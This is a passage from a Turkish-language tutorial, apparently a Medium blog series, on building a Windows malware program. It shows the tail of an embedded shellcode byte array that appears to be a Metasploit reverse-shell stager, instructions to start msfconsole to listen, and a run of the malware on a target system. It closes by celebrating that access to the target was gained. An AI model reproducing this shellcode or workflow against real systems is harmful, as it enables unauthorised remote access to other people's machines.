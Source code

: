 ```shell
"\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40"
"\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5"
"\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"
"\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff"
"\xd5"
```

Daha sonra bu shellcode’u kodlara ekliyoruz.

Ardından msfconsole’u başlatalım ve aşağıdaki şu kodları yazalım:

<img src="https://miro.medium.com/v2/resize:fit:720/format:webp/1*v-DCvi7KOuV5lcdLI34M1Q.png">
<h4> Hedef Sistemi dinlemeye alınması </h4>

Bu işlemler ile artık hedef sistemi dinlemeye alıyoruz. Kullanıcı programı çalıştırdığı takdirde sisteme bağlantımız açılacak.

Şimdi hedef sistemden programı çalıştıracağız. Ben örnek açısından malware’i paint üzerinden çalıştıracağım:

<img src="https://miro.medium.com/v2/resize:fit:720/format:webp/1*xLaiXogqndZd5oTTiSfGEg.png">
<h4> Hedef Sistemde Malware’in çalıştırılması </h4>

Programı çalıştırdık! Şimdi hedef sistemde son duruma tekrar bakalım:

<img src="https://miro.medium.com/v2/resize:fit:720/format:webp/1*IRDmlSWMl38ap3_f1UxfCQ.png">
<h4> Sonuç </h4>

Veee Sihir gerçekleşti! Hedef sisteme erişimiz sağlandı! Good Job BRO!

Bu serimiz bu kadardı. Umarım gerçekten siz okuyuculara bir şey katabilmişimdir..

Diğer seride görüşmek üzere!